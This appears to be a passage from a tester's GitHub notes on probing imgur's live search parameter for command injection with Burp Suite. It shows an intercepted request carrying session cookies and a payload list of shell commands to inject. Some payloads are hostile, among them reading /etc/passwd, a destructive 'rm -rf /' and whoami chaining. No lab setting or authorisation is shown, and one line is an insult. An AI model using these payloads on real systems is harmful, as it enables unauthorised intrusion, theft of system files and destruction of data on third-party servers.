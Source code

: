 ### Imgur search bar - Command Injection testing
- In this test, we'll use our list of test commands and the burpsuite tool.
- At first, let's intercept the GET request to the imgur search ability in burpsuite.
- Here we've got the intercepted request of searching string "lol" in the raw format. 

```xml
GET /search?q=lol HTTP/1.1
Host: imgur.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://imgur.com/search?q=lol
Cookie: __cfduid=d47c5a597f5aaf36924847b16ac9d9fe51528660130; IMGURSESSION=e51a914f2c5f3eff538c49e92bd5d8b6; frontpagebetav2=1; fp=3651187010094464; m_sort=score; m_window=all; m_section=hot; m_adv_search=%7B%22queries%22%3A%5B%5D%2C%22filters%22%3A%5B%5D%2C%22raw%22%3A%7B%22q_size_is_mpx%22%3A%22off%22%7D%2C%22style%22%3A%22thumbs%22%7D; m_search_query=lol; _nc=1
Connection: close
Upgrade-Insecure-Requests: 1
```
- The payload will be only one and it'll be the **GET /search?q**="_lol_". Injected value will look f.e. as follows "_ls && whoami_".
- Now we'll need some payload list of commands that we'll try to inject into the imgur servers system. 

```bash
ls
date
ls & ping -i 30 127.0.0.1
date & ping -c 30 127.0.0.1
date || ping -i 30 127.0.0.1
echo "Harold..."; ping -i 30 127.0.0.1
pwd & `ping 127.0.0.1`
lscpu; echo "Hide the pain!"
id & ls 
id;ls
id & cat /etc/passwd
`id`
id & sleep 30
echo $((13 + 8))
rm -rf / && echo "I am dead..."
SECRET = "imgur ƨuckƨ aƨƨ"
doggo & ping -i 30 127.0.0.1
doggo & ping -c 30 127.0.0.1
doggo || ping -i 30 127.0.0.1
doggo; ping -i 30 127.0.0.1
doggo & `ping 127.0.0.1`
doggo; echo "need chimken nuggers!"
doggo & ls 
doggo;ls
doggo; sleep 10
doggo
```
